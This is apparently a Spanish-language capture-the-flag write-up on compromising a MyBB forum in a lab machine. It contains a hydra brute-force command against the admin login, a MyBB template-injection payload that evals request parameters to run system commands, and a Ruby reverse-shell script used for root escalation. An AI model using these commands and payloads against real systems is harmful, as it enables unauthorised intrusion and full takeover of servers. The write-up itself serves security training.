

- Tags: #InformationLeakage #hydra #fuerzaBruta #MyBB
______
comenzamos con lo básico, aplicando reconocimiento con nmap a la ip de la maquina victima.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allport 
```

para posteriormente aplicar reconocimiento de versiones y servicios. 

```shell
nmap -p <puertos> <direccion_Ip> -sCV -oN target 
```

se reporta un solo puerto, el puerto 80 (http).

veamos que tenemos.
____

___
utilizando el wappalyzer nos reporta que estamos ante un WordPress, también nos reporta MySql.
____

___
pero si revisamos el codigo fuente veremos que tenemos un nuevo dominio para el cual debemos aplicar virtual hosting para que la IP nos pueda resolver el contenido de la pagina.
_____

____
si ingresamos al nuevo dominio veremos lo siguiente.
____

___
tenemos otra interfaz por la que corre MyBB. 

MyBB es un sistema de gestión de foros gratuito y de código abierto. Está programado en el lenguaje PHP y soporta bases de datos MySQL, PostgreSQL y SQLite.

también podemos observar que tenemos un posible usuario "admin" y lo podemos corroborar si ingresamos en Member List veremos que el usuario registrado en el sistema es "admin".

podemos aplicar fuzzing con gobuster para ver que otros archivos y directorios encontramos.

encontramos variedad de directorios y archivos pero existen dos que son de real interés hasta el momento.

1) backups 
2) admin

esos dos directorios son los principales a investigar.

empecemos con backups el cual si le aplicamos fuzzing nos descubrirá un archivo **DATA** con el siguiente contenido.
_____

____
tenemos lo que parece ser un usuario "alice" y una contraseña codificada, por los momentos no nos sirve pero la reservaremos para mas adelante.
____

____
si nos vamos al directorio de admin nos encontraremos con un panel de login el cual sabemos el usuario pero no su contraseña, haremos pruebas con las contraseñas por defecto y mas conocidas, pero no obtenemos resultado.

lo siguiente que haremos es aplicar fuerza bruta con hydra, para eso tenemos que capturar la petición con BurpSuite para tomar los datos que necesitamos para configurar hydra.
____

______
tenemos la petición ahora nos falta armar el rompe cabezas, empecemos.

para aplicar fuerza bruta a un panel de login con hydra necesitamos 3 cosas.

1) dirección donde se aloja el panel en este caso **/admin/index.php**
2) necesitamos la data de como se componen los campos donde ingresamos el usuario y contraseña, en este ejemplo es la siguiente **username=admin&password=addad&do=login**
3) necesitamos el error que nos marca el panel de login cuando la credencial es incorrecta
_____

____
una vez tengamos esas 3 cosas ya podemos realizar el ataque de fuerza bruta con hydra.

el comando tiene la siguiente sintaxis.

```shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:The username and password combination you entered is invalid." -t 16 
```

en los campos donde van el usuario y la contraseña deberán ser reemplazados con **^USER^** en caso de ser el usuario y **^PASS^** en caso de ser la contraseña, ademas de esto debemos agregar el parámetro **http-post-form** para indicarle a hydra a que nos estamos refiriendo.

también tenemos que colocar la URL raíz donde se aloja el panel de login, en este caso es en **panel.mybb.dl**.

hydra nos reportara lo siguiente.
____

____
nos reporta variedad de contraseñas pero la indicada es **babygirl**, teniendo la credencial ya podemos acceder como admin a MyBB.

allí podremos ver la versión de MyBB y buscar vulnerabilidades en caso de que las tenga.

tenemos la versión MyBB 1.8.35.

tenemos una vulnerabilidad reportada, se trata de un Template Code Injection.

sigamos la prueba de concepto que nos ofrece un blog.

Para demostrar esta vulnerabilidad manualmente, siga estos pasos:

1. Iniciar sesión en el panel de administración
2. Vaya a **“Plantillas y estilo” > “Plantillas” > “Plantillas predeterminadas”**.
3. Seleccione una plantilla (por ejemplo, “Plantillas de quién está en línea”) y haga clic en “en línea”.
4. Agregue la siguiente carga útil en la parte superior de la plantilla:

```java
<!--{$db->insert_id(isset($_GET[1])?die(eval($_GET[1])):'')}{$a[0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0][0]}-->
```

5. Haga clic en uno de los botones Guardar
6. - Prueba de concepto de PHPInfo: [http://example.com/online.php?1=phpinfo();](http://example.com/online.php?1=phpinfo()
7. - Comando Ejecutar: [http://example.com/online.php?1=system('whoami;pwd');](http://example.com/online.php?1=system(%27whoami;pwd%27);)
_____
si accedemos para ejecutar comandos podremos ver lo siguiente.
_____

____
tenemos ejecución remota de comandos, ahora podemos entablar una reverse shell y ganar acceso a la maquina.
______

_____
estamos dentro, ahora necesitamos descifrar la contraseña para así poder pivotar al usuario alice.
___

____
utilizamos john para descifrarla y así podemos pivotar de usuario. 

ahora debemos buscar una forma de escalar privilegios, si aplicamos el comando sudo -l veremos lo siguiente.
_____

_____
podemos ejecutar cualquier script de ruby, por lo que buscaremos una reverse shell para poder pivotar a root.

```shell
#!/usr/bin/env ruby
# syscall 33 = dup2 on 64-bit Linux
# syscall 63 = dup2 on 32-bit Linux
# test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1
s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }
exec '/bin/sh -i'
```

esta es la reverse shell que funciono, la modificamos y la subimos a la maquina victima por medio de un servidor de python.

debemos estar a la escucha con netcat en el puerto que establezcamos en la reverse shell.

ejecutamos el script desde la maquina victima y obtendremos root.
____